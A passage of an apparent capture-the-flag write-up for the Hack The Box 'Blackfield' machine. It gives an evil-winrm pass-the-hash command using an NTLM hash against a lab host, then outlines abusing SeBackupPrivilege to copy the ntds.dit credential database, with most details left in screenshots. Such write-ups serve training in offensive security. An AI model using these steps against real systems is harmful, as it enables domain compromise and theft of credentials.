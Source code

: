 ⇒ We can use the NTLM hash for authentication with evil-winrm as user svc_backup

**evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i 10.10.10.192**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2012.png)

---

## Privilege Escalation to DA [ SeBackUpPrivilege ]

⇒ Our user svc_backup has **SeBackUpPrivilege** which we can leverage to yoink ntds.dit :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2013.png)

Reference : [https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2014.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2014.png)
